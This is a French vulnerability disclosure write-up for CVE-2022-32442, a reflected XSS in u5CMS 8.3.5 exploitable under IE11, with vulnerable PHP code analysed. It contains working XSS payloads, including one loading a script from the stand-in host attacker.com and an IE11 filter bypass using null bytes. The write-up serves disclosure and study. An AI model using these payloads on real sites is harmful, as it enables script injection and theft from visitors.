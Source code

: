 ```yaml
---
description: Mis à jour le 10/07/2022
---
```


# CVE-2022-32442

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** XSS réfléchie ([CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html))

La page d'accueil d'u5CMS en version 8.3.5 est vulnérable à une Cross-Site Scripting (XSS) de type réfléchie. La charge peut être être injectée après le caractère `?` de l'URL et est réfléchie dans les deux liens HTML permettant le changement de langue.

![S](<../../.gitbook/assets/image (5) (1) (2) (1).png>)

## Analyse de la vulnérabilité

Ce qui suit le caractère `?` de l'URL est réfléchie dans l'attribut `href` du lien `<a></a>` des deux (autres) choix de langues qu'offre le CMS :&#x20;

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

L'injection d'un caractère `"` visant à s'échapper de l'attribut `href` afin d'injecter la charge malicieuse `"onmouseover='alert(1)'value="&l=fr` ne fonctionne pas. En effet, le navigateur encode les caractères spéciaux rendant l'attaque ainsi sans effet :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

L'encodage effectué par les navigateurs est le résultat de la bonne implémentation de la section 2.2 de la RFC 1738 ([https://datatracker.ietf.org/doc/html/rfc1738#section-2.2](https://datatracker.ietf.org/doc/html/rfc1738#section-2.2)) :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

Firefox, Chrome ou encore Edge sont des bons élèves et implémentent correctement cette RFC, mais ce n'est pas forcément le cas pour ce bon vieux IE11. En effet ce navigateur n'encode pas les noms et les valeurs des paramètres :&#x20;

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

L'exécution d'un script distant est également possible grâce à la payload suivante `"><script/src=https://attacker.com/xss.js>&l=fr` :&#x20;

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Et ce, même si le filtre anti-XSS d'IE11 semble être bien actif :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

{% hint style="info" %}
Microsoft a annoncé qu'Internet Explorer 11 ne sera plus supporté et progressivement retiré des versions de Windows. Cela peut avoir pour conséquence que les remontées de ce type (ie. exploitable seulement sous IE11) ne soient plus acceptées au sein des programmes de Bug Bounty.
{% endhint %}

{% hint style="danger" %}
Attention à lire également la partie "Code vulnérable" afin de bien comprendre le fonctionnement de l'attaque et la raison pour laquelle la vulnérabilité est exploitable seulement sous IE11.
{% endhint %}

Afin de prouver la présence de la XSS réfléchie sur n'importe quel navigateur il est possible de passer par une interception de proxy via Burp (ou autre) :&#x20;

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

## Code vulnérable

Le fichier `index.php` va rechercher les motifs `{{{motifs}}}` dans le fichier `htmltemplate.css` :

{% code title="index.php" %}
```php
$template=str_replace('[_logo_]','r/logo/'.def($file_d,$file_e,$file_f).'?t='.filemtime('r/logo/'.def($file_d,$file_e,$file_f)),file_get_contents('r/htmltemplate.css'));
...
$i_i_item=explode('{{{',$template);
for ($i_i_i=0;$i_i_i<count($i_i_item);$i_i_i++) {
   if (strpos($i_i_item[$i_i_i],'}}}')>1) {
      $i_i_part=explode('}}}',$i_i_item[$i_i_i]);
```
{% endcode %}

A un certain moment, le motif sera celui concernant l'affichage des liens de changement de langues `{{{languages}}}` :&#x20;

{% code title="htmltemplate.css" %}
```html
<div id="main">
  <div id="header" style="background:url([_logo_]);background-size:cover">
    <div id="metanavi">&nbsp;&nbsp;&nbsp;<a name="search"></a>{{{search}}}
      <div id="languages">{{{languages}}}</div>
```
{% endcode %}

Alors, le fichier nommé `u5sys.languages.php` sera inclus (`$i_i_part[0]` et aura pour valeur `"languages"`) :&#x20;

{% code title="index.php" %}
```php
if (file_exists('u5sys.'.$i_i_part[0].'.php')) include('u5sys.'.$i_i_part[0].'.php');
```
{% endcode %}

Ce nouveau fichier va afficher au sein de la page d'accueil les deux liens de changement de langues suivant la valeur contenu dans le paramètre de l'URL `l` :

{% code title="u5sys.languages.php" %}
```php
if ($_GET['l']==$lan3na) {
  $lancode=$lan3na;
  $nbsp='';
  if ($lan1name!='' && $lan2name!='') $nbsp='&nbsp;&nbsp;&nbsp;';
  if($u5showlinkofactivelanguageinmetanavi=='yes')$lanswitch='<a href="'.chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>'.$nbsp.'<a href="'.chglang($lan3na).'">'.$lan3name.'</a>';
  else $lanswitch='<a href="'. chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>';
}

...

echo $lanswitch;
```
{% endcode %}

{% hint style="info" %}
Il existe en fait trois blocs du même genre en fonction de la langue sélectionnée : "fr", "de" ou "en". L'exemple de code ici correspond à la langue "fr".
{% endhint %}

La fonction `chglang()` retourne la variable `$u` qui prend comme valeur le caractère `?` ainsi que  ce qui suit dans l'URL (grâce à `$_SERVER['QUERY_STRING']`) :

{% code title="chglang.inc.php" %}
```php
function chglang($l) {
  global $lan1na;
  global $lan2na;
  global $lan3na;
  
  $u='?'.$_SERVER['QUERY_STRING'];
  //echo 'query string : ' . $_SERVER['QUERY_STRING'];
  $u=str_replace('l='.$lan1na,'',$u);
  $u=str_replace('l='.$lan2na,'',$u);
  $u=str_replace('l='.$lan3na,'',$u);
  $u=str_replace('l=','',$u);
  $u=($u.'&l='.$l);
  $u=str_replace('&&','&',$u);
  $u=str_replace('?&','?',$u);
  //$u=str_replace('&','&amp;',$u);
  return $u;
}
```
{% endcode %}

{% hint style="info" %}
Les variables $lan1na, $lan2na, $lan3na correspondent respectivement aux chaines "de", "en" et "fr". Elles sont récupérées depuis la table `languages` en base de données.
{% endhint %}

Le coupable de la non exploitabilité de la vulnérabilité XSS sur d'autres navigateurs que IE11, à savoir à minima Chrome et Firefox, est la récupération de la valeur de l'URL par la variable `$_SERVER['QUERY_STRING']`. En effet, les donnée présentes dans l'URL et récupérées via ce procédé sont bien encodées par les navigateurs récents (la situation serait la même si les données étaient récupérées par la variable `$_SERVER['REQUEST-URI']`) et pas décodé par un composant côté serveur. Ce n'est pas le cas lors d'une récupération des données via la variable `$_GET['variable']` par exemple.

{% code title="globals.inc.php" %}
```php
$sql_a="SELECT * FROM languages";
$result_a=mysql_query($sql_a);
...
$row_a = mysql_fetch_array($result_a);
...
$lan1na=$row_a['lan1na'];
$lan2na=$row_a['lan2na'];
$lan3na=$row_a['lan3na'];
```
{% endcode %}

![](<../../.gitbook/assets/image (3) (1) (1).png>)

**Mise à jour du 10/07/2022**

La reproduction du code vulnérable dans un contexte plus simple (hébergé toujours sur la même VM) :&#x20;

```php
<?php
echo 'a href="example.com' . $_SERVER["QUERY_STRING"] .'">lien</a>';
?>
```

fait se déclencher la protection anti-XSS d'IE11 :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1).png>)

La cause de cette différence (entre l'environnement utilisé pour le test de u5cms et celui de PoC) n'a pas pu être identifiée mais le contournement suivant `<script/%00%00v%00%00>alert(1)</script>` semble fonctionner dans le cadre du PoC :&#x20;

![](<../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

et également sur le CMS vulnérable :&#x20;

![](<../../.gitbook/assets/image (3) (1) (2).png>)

## Ressources

* [https://github.com/u5cms/u5cms/issues/49](https://github.com/u5cms/u5cms/issues/49)
* [https://twitter.com/xsspayloads/status/1276386591972438017](https://twitter.com/xsspayloads/status/1276386591972438017)
